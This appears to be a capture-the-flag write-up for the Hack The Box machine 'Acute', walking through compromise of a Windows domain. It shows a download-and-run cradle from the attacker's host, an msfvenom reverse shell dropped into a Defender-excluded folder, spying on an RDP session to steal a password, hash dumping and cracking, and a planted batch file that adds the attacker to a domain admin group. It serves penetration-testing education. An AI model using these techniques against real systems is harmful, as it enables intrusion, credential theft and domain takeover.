

# Acute

IP: 10.10.11.145

## Nmap
### All ports
```bash
$ sudo nmap -p- --min-rate=1000 -T4 10.10.11.145 -v -Pn

PORT    STATE SERVICE
443/tcp open  https
```

### Version and Scripts
```bash
$ sudo nmap -sC -sV -p 443 10.10.11.145 -o nmap

PORT    STATE SERVICE  VERSION
443/tcp open  ssl/http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| ssl-cert: Subject: commonName=atsserver.acute.local
| Subject Alternative Name: DNS:atsserver.acute.local, DNS:atsserver
| Not valid before: 2022-01-06T06:34:58
|_Not valid after:  2030-01-04T06:34:58
| tls-alpn: 
|_  http/1.1
|_ssl-date: 2022-03-25T00:09:06+00:00; +16m13s from scanner time.
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Scanning the open ports we see only 443 open. We also notice the DNS `atsserver.acute.local`. Lets add it to our `/etc/hosts` file:
```
10.10.11.145    acute.local     atsserver.acute.local
```

## Port 443 - HTTPS
Browsing to https://10.10.11.145/ we are given a 404 not found page. However, browsing to https://atsserver.acute.local/ we are directed to "Acute Health" page:
![[acute/images/image1.png]]

If we go to https://atsserver.acute.local/about.html it is possible to download a `.docx` file clicking in the "New Starter Forms" on the top right corner:
![[acute/images/image2.png]]

I will use `libreoffice` to open the file and read its contents:
```bash
$ libreoffice New_Starter_CheckList_v7.docx

...[snip]...

The Universitys staff induction pages can be found at: https://atsserver.acute.local/Staff                                                                 
The Staff Induction portal can be found here: https://atsserver.acute.local/Staff/Induction

...[snip]...

Arrange for the new starter to receive a demonstration on using IT tools which may include MUSE, myJob and Google accounts. Walk the new starter through the password change policy, they will need to change it from the default Password1!. Not all staff are changing these so please be sure to run through this.

...[snip]...

Run through the new PSWA to highlight the restrictions set on the sessions named dc_manage.

...[snip]...
    
Arrange for the new starter to meet with other staff in the department as appropriate. This could include the Head of Department and/or other members of the appointee’s team. Complete the [remote](https://atsserver.acute.local/Acute_Staff_Access) training

...[snip]...

**Lois is the only authorized personnel to change Group Membership, Contact Lois to have this approved and changed if required. Only Lois can become site admin. **
```

The document seems to be a guide for a new employee. The important bits are:
- The default password and the administrator name
- The PSWA (PowerShell WebAccess) session/configuration name `dc_manage`
- Remote training Acute_Staff_Access URL


### Acute Staff Access
Accessing https://atsserver.acute.local/Acute_Staff_Access:
![[acute/images/image3.png]]

So we need username, password and computer name. So far we have default password. But we don’t have computer name.

Running `exiftool` in the `.docx` file we get a bit more information:
```bash
$ exiftool New_Starter_CheckList_v7.docx                                                                                                                    
ExifTool Version Number         : 12.40                                                                                                                     
File Name                       : New_Starter_CheckList_v7.docx                                                                                             
Directory                       : .                                                                                                                         
File Size                       : 34 KiB                                                                                                                    
File Modification Date/Time     : 2022:03:25 08:08:19+08:00                                                                                                 
File Access Date/Time           : 2022:03:25 08:08:41+08:00                                                                                                 
File Inode Change Date/Time     : 2022:03:25 08:08:31+08:00                                                                                                 
File Permissions                : -rw-r--r--                                                                                                                
File Type                       : DOCX                                                                                                                      
File Type Extension             : docx                                                                                                                      
MIME Type                       : application/vnd.openxmlformats-officedocument.wordprocessingml.document                                                   
Zip Required Version            : 20                                                                                                                        
Zip Bit Flag                    : 0x0006                                                                                                                    
Zip Compression                 : Deflated                                                                                                                  
Zip Modify Date                 : 1980:01:01 00:00:00                                                                                                       
Zip CRC                         : 0x079b7eb2                                                                                                                
Zip Compressed Size             : 428                                                                                                                       
Zip Uncompressed Size           : 2527                                                                                                                      
Zip File Name                   : [Content_Types].xml                                                                                                       
Creator                         : FCastle                                                                                                                   
Description                     : Created on Acute-PC01                                                                                                     
Last Modified By                : Daniel                                                                                                                    
Revision Number                 : 8                                                                                                                         
Last Printed                    : 2021:01:04 15:54:00Z                                                                                                      
Create Date                     : 2021:12:08 14:21:00Z                                                                                                      
Modify Date                     : 2021:12:22 00:39:00Z                                                                                                      
Template                        : Normal.dotm                                                                                                               
Total Edit Time                 : 2.6 hours                                                                                                                 
Pages                           : 3                                                                                                                         
Words                           : 886                                                                                                                       
Characters                      : 5055                                                                                                                      
Application                     : Microsoft Office Word                                                                                                     
Doc Security                    : None                                                                                                                      
Lines                           : 42                                                                                                                        
Paragraphs                      : 11                                                                                                                        
Scale Crop                      : No                                                                                                                        
Heading Pairs                   : Title, 1                                                                                                                  
Titles Of Parts                 :                                                                                                                           
Company                         : University of Marvel                                                                                                      
Links Up To Date                : No                                                                                                                        
Characters With Spaces          : 5930                                                                                                                      
Shared Doc                      : No                                                                                                                        
Hyperlinks Changed              : No                                                                                                                        
App Version                     : 16.0000
```

The important details are:
- Description: Created on Acute-PC01
- Creator: FCastle
- Modified: Daniel
So we have 2 usernames and the computer name.

If we come back to the About page, there is a list of employees:
![[acute/images/image4.png]]

If we try to follow the same username format that is in the `exiftool` "Creator" field we get:
```
awallace
chall
edavies
imonks
jmorgan
lhopkins
```

So now we have all the pieces to try to login at https://atsserver.acute.local/Acute_Staff_Access/. After try and error we login as `edavies`:
```
User name: EDavies
Password: Password1!
Computer Name: Acute-PC01
```

## PSWA as edavies
We have a PowerShell session as `edavies`. Looking at the network configuration we can see that we are not in the main machine, but in a container:
```
PS C:\Users\edavies\Documents> ipconfig /all

Windows IP Configuration
   Host Name . . . . . . . . . . . . : Acute-PC01
   Primary Dns Suffix  . . . . . . . : acute.local
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : acute.local

Ethernet adapter Ethernet 2:
   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Microsoft Hyper-V Network Adapter #2
   Physical Address. . . . . . . . . : 00-15-5D-E8-0A-01
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::9513:4361:23ec:64fd%14(Preferred) 
   IPv4 Address. . . . . . . . . . . : 172.16.22.2(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.22.1
   DHCPv6 IAID . . . . . . . . . . . : 251663709
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-29-29-1F-44-00-15-5D-E8-02-00
   DNS Servers . . . . . . . . . . . : 172.16.22.1
   NetBIOS over Tcpip. . . . . . . . : Enabled
```

### Enumerate ports open
I will use [Minimalistic-offensive-security-tools](https://github.com/InfosecMatter/Minimalistic-offensive-security-tools) to enumerate the ports open:
In Kali
```bash
$ python3 -m http.server 80
```
In the PSWA
```PowerShell
IEX(New-Object Net.Webclient).downloadstring('http://10.10.14.14/port-scan-tcp.ps1')
```

IEX will download and load the script. If you try to download it and execute manually using curl or other method then it will not work.
Now run below command to start finding open ports on the gateway IP address:
```PowerShell
1..1024 | foreach { port-scan-tcp 172.16.22.1 $_ }
```

After couple minutes we can check the open ports dumped into a txt file:
```
PS C:\Users\edavies\Documents> type scanresults.txt | Select-String Open

172.16.22.1,tcp,53,Open
172.16.22.1,tcp,88,Open
172.16.22.1,tcp,135,Open
172.16.22.1,tcp,139,Open
172.16.22.1,tcp,389,Open
172.16.22.1,tcp,443,Open
172.16.22.1,tcp,445,Open
172.16.22.1,tcp,464,Open
172.16.22.1,tcp,593,Open
172.16.22.1,tcp,636,Open
```

Looks like this IP is a Domain Controller, as it is running Kerberos and LDAP. Let’s get a real shell by uploading our reverse shell executable. If we try to run executable from either home directory or programdata, it gives us error message. Antivirus is running, probably defender. So, we can query the registry to find whitelisted paths.

### AV whitelist paths
```PowerShell
reg query "HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths
 C:\Utils               REG_DWORD    0x0  
 C:\Windows\System32    REG_DWORD    0x0
```

As you can see, there are two folders which are whitelisted. We can use `C:\Utils` directory to execute our reverse shell. Let’s download our executable there and run it.

### Metasploit reverse shell
Create the reverse shell:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=9001 -f exe -o reverse.exe
```

Setup metasploit handler:
```
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST tun0
msf6 exploit(multi/handler) > set LPORT 9001
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.14:9001
```

Download the reverse shell to Acute machine and execute:
```PowerShell
cd C:\Utils
curl 10.10.14.14/reverse.exe -o reverse.exe
.\reverse.exe
```

### Meterpreter Session
As the reverse shell is executed in the Acute machine we receive the meterpreter session:
```
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.14.14:9001
[*] Sending stage (200262 bytes) to 10.10.11.145
[*] Meterpreter session 1 opened (10.10.14.14:9001 -> 10.10.11.145:49785 ) at 2022-03-25 09:58:02 +0800

meterpreter > shell
Process 1948 created.
Channel 2 created.
Microsoft Windows [Version 10.0.19044.1466]
(c) Microsoft Corporation. All rights reserved.

C:\Utils>powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Utils>
```

I ran WinPEAS and got this interesting info:
![[acute/images/image5.png]]

This means that `edavies` is using RDP (gui interface) and is ACTIVE!
We can use a meterpreter module to watch his screen:
```
meterpreter > screenshare -q 100
[*] Preparing player...
[*] Opening player at: /home/caue/htb/acute/yiBhXusM.html
[*] Streaming...
```

While stalking `edavies` we see the user opening a PowerShell session and entering some commands:
![[acute/images/image6.png]]

This was his commands:
```PowerShell
$pass = ConvertTo-SecureString "W3_4R3_th3_f0rce." -AsPlaintext -Force  
$cred = New-Object System.Management.Automation.PSCredential ("acute\imonks", $pass)  
Enter-PSSession -computername ATSSERVER -ConfigurationName dc_manage -credential $cred
```

He is using the user `imonks` credentials to start another session.
Now we can run commands as a new user, lets see what we can find.

## Running commands as Imonks
We can read the flag:
```PowerShell
$SecPassword = ConvertTo-SecureString 'W3_4R3_th3_f0rce.' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('acute\imonks', $SecPassword)
Invoke-Command atsserver -ConfigurationName dc_manage -Credential $Cred -scriptblock { cat c:\users\imonks\Desktop\user.txt }
```

Query the domain controller about `imonks` user:
```PowerShell
Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -credential $cred -ScriptBlock {net user imonks /domain}

User name                    imonks
Full Name                    Ieuan Monks
Comment                      
Users comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            21/12/2021 14:51:31
Password expires             Never
Password changeable          22/12/2021 14:51:31
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   25/03/2022 02:37:08

Logon hours allowed          All

Local Group Memberships      
Global Group memberships     *Domain Users         *Managers             
The command completed successfully.
```

So `imonks` is member of "Managers" group. Lets see who else is member of that group:
```
Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -credential $cred -ScriptBlock {net user awallace /domain}

User name                    awallace
Full Name                    Aileen Wallace
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            21/12/2021 14:50:36
Password expires             Never
Password changeable          22/12/2021 14:50:36
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   23/12/2021 09:15:29

Logon hours allowed          All

Local Group Memberships      
Global Group memberships     *Domain Users         *Managers
```

User `awallace` is also member of "Managers" group.
We really need is a real shell as `imonks` to run more commands. Lets keep enumerating the machine.
If we check the `imonks` desktop, we will find a powershell script, `wm.ps1`:
```PowerShell
PS C:\Utils> Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -credential $cred -ScriptBlock {ls ../desktop}

Directory: C:\Users\imonks\desktop

Mode                 LastWriteTime         Length Name                               PSComputerName                    
----                 -------------         ------ ----                               --------------                    
-ar---        25/03/2022     00:49             34 user.txt                           ATSSERVER                         
-a----        11/01/2022     18:04            602 wm.ps1                             ATSSERVER 


PS C:\Utils> Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -credential $cred -ScriptBlock {cat ../desktop/wm.ps1}

$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'
$passwd = $securepasswd | ConvertTo-SecureString
$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)
Invoke-Command -ScriptBlock {Get-Volume} -ComputerName Acute-PC01 -Credential $creds
```

If we execute this script, then it sets a secure password, and execute `Get-Volume` from `jmorgan` user's context. We have to edit it script and modify the invoke command.

```PowerShell
PS C:\Utils> Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -ScriptBlock{((cat "c:\users\imonks\Desktop\wm.ps1" -Raw) -replace 'Get-Volume','cmd.exe /c c:\utils\reverse.exe') | set-content -path c:\users\imonks\Desktop\wm.ps1} -credential $cred
```

This command will replace the `Get-Volume` string with `cmd.exe /c c:\utils\reverse.exe` We already have `reverse.exe` in utils directory. So upon execution we get the reverse connection on metasploit. Let’s read the contents of file to make sure our cmd is good to go:
```PowerShell
PS C:\Utils> Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -credential $cred -ScriptBlock {cat ../desktop/wm.ps1}

$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'
$passwd = $securepasswd | ConvertTo-SecureString
$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)
Invoke-Command -ScriptBlock {cmd.exe /c c:\utils\reverse.exe} -ComputerName Acute-PC01 -Credential $creds
```

Perfect, just need to setup a metasploit handler again and run the script:
```PowerShell
PS C:\Utils> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock{C:\Users\imonks\Desktop\wm.ps1}
```

Metasploit handler:
```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.14:9001 
[*] 10.10.11.145 - Meterpreter session 1 closed.  Reason: Died
[*] Sending stage (200262 bytes) to 10.10.11.145
[*] Meterpreter session 2 opened (10.10.14.14:9001 -> 10.10.11.145:49821 ) at 2022-03-25 10:34:04 +0800

meterpreter > shell
Process 2668 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19044.1466]
(c) Microsoft Corporation. All rights reserved.

C:\Users\jmorgan\Documents>whoami
whoami
acute\jmorgan
```

## Meterpreter session as jmorgan
```
C:\Users\jmorgan\Documents>whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes                                                     
========================================== ================ ============ ===============================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group             
BUILTIN\Administrators                     Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group             
Authentication authority asserted identity Well-known group S-1-18-1     Mandatory group, Enabled by default, Enabled group             
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```

A simple enumeration in the user groups tells us that it is member of `BUILTIN\Administrators`. The privilege escalation now seems logic.
```
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

We may have pwned the administrator, but it is not the actual host. We can confirm by running ipconfig:
```
meterpreter > ipconfig

Interface  1
============
Name         : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU          : 4294967295
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff


Interface 14
============
Name         : Microsoft Hyper-V Network Adapter #2
Hardware MAC : 00:15:5d:e8:0a:01
MTU          : 1500
IPv4 Address : 172.16.22.2
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::9513:4361:23ec:64fd
IPv6 Netmask : ffff:ffff:ffff:ffff::
```

Since we are `Administrator` lets dump the hashes:
```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a29f7623fd11550def0192de9246f46b:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Natasha:1001:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:24571eab88ac0e2dcef127b8e9ad4740:::
```

Crack it:
```bash
$ hashcat.exe -m 1000 hashes.txt rockyou.txt

a29f7623fd11550def0192de9246f46b:Password@123
```

Previously we queried the domain to find member of "Managers" group, there was one user, `awallace` , let’s try to use this password from this users context.


## Running commands as awallace
Coming back to `edavies` PSWA we can now try to send commands as `awallace` using the password `Password@123`:
```PowerShell
PS C:\Utils> $password = ConvertTo-SecureString "Password@123" -AsPlainText -Force
PS C:\Utils> $cred = New-Object PS C:\Utils> System.Management.Automation.PSCredential("Acute\AWallace",$password)
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -Command {whoami}
  
acute\awallace
```

Enumerating files and directories there is one that sticks out - `keepmeon`:
![[acute/images/image7.png]]

Lets read its content:
```Powershell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -Command {cat 'c:\program files\keepmeon\keepmeon.bat'}

REM This is run every 5 minutes. For Lois use ONLY
@echo off
 for /R %%x in (*.bat) do (
 if not "%%x" == "%~0" call "%%x"
)
```

This looks like a schedule script, it runs this batch file every five minutes and checks for any .bat files in the parent directory and if there’s a .bat file then it executes it.
The main thing/information is that the script is for only `lois` user and we already know that, `lois` is the only user who can change group membership.
So, we can create a batch file which gives `awallace` user administrator privileges of `site admin` group.
```PowerShell
PS C:\Utils> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {Set-Content -Path 'c:\program files\Keepmeon\admin.bat' -Value 'net group site_admin awallace /add /domain'}
```

Check that the file was created:
```PowerShell
PS C:\Utils> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {ls 'c:\program files\Keepmeon\'}

Directory: C:\program files\Keepmeon

Mode                 LastWriteTime         Length Name                       PSComputerName                    
----                 -------------         ------ ----                       ---------
-a----         3/25/2022   3:12 AM             44 admin.bat                  ATSSERVER                     
-a----        12/21/2021   2:57 PM            128 keepmeon.bat               ATSSERVER

```

Now we need to wait for five minutes to run that schedule job to execute our batch file. Check the whether you added to `site_admin` group or not.

Lets check:
```PowerShell
PS C:\Utils> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -Command {whoami /groups}
```
![[acute/images/image8.png]]
Yes! We got it.
We are domain admin now. Let’s read the final flag from administrators directory.

```PowerShell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {cat 'c:\users\administrator\desktop\root.txt'}
```
